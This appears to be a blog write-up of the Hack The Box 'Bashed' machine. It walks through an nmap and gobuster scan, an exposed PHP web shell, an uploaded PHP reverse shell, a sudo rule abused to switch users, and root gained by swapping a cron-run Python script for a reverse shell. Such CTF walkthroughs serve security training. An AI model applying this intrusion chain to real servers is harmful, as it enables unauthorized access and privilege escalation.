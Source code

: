 ```yaml
---
layout: post
title:  "HTB Writeup - Bashed"
date:   2019-11-10 12:59:50 +0000
---
```


# HTB writeup - Bashed
<br />

Hello, today we are going to see how I rooted Bashed from Hack The Box.

This is a very easy machine, let's start with nmap:
```
root@kali:~# nmap -sC -sV 10.10.10.68
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-10 12:40 CET
Nmap scan report for 10.10.10.68
Host is up (0.045s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```
<br />

As we can see, we only have http.
<br />
http://10.10.10.68:
<img src="/assets/bashed1.PNG" alt="drawing" width="600"/>




<br />
```
gobuster dir -u "http://10.10.10.68" -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/10 11:15:49 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
===============================================================
2019/11/10 11:17:11 Finished
===============================================================
```
<br />

We have interesting files under /dev. Basically there is a web shell written in php. 

We execute it, and we are www-data.

<img src="/assets/bashed2.PNG" alt="drawing" width="600"/>
<br />
I tried to pop a reverse shell in various languages, but it didn't work, probably because it was appending a redirect on each command.
<br />

If we take a look back at the gobuster output, we see that an /uploads folder is available. 
I ran some test, and I found out that if you place a file under "/var/www/html/uploads/file_name" you can execute it from the web server "/uploads/file_name".
I therefore uploaded a php reverse shell and I popped a shell as www-data. 
<br />

I then spawned a python shell with:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
<br />
Doing some basic enumeration, I found out that www-data can run any command without providing the password as scriptmanager:
```
(scriptmanger : scriptmanager) NOPASSWD: ALL
```
So, once I had a shell I changed user.
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Nov  9 11:29 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 116 root          root              0 Nov  9 11:28 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Nov  9 11:29 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Nov  9 11:28 sys
drwxrwxrwt  10 root          root           4096 Nov 10 03:04 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
<br />
```
the folder scripts really stands out:
```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 10 03:05 test.txt

scriptmanager@bashed:/scripts$ date
Sun Nov 10 03:05:07 PST 2019


scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ 
```
<br />

Inside this folder we have two files, the idea behind this is that the file test.py is run by root each minute and produce the output test.txt. All I need to do was replace the content of test.py with a python reverse shell, and that's it!  



